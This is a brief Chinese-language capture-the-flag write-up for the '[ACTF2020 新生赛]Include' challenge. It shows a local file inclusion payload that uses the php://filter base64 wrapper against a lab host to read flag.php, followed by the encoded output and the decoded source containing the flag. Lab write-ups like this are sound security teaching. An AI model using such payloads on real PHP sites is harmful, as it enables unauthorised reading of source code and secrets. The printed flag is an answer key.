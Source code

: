 ## [ACTF2020 新生赛]Include

打开题目，点TIPS，发现URL上面有`?file=flag.php`

已经提示的很明显了，直接用php伪协议读取

```web-idl
http://81ed096f-fe93-42cb-af08-1ced7427897d.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=flag.php
```

得到

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7OWZhYzkzZmMtMjAxMy00NjA5LWIzNWQtMTUzODJhODI3Y2Q1fQo=
```

base64解码得到

```php
<?php
echo "Can you find out the flag?";
//flag{9fac93fc-2013-4609-b35d-15382a827cd5}
```

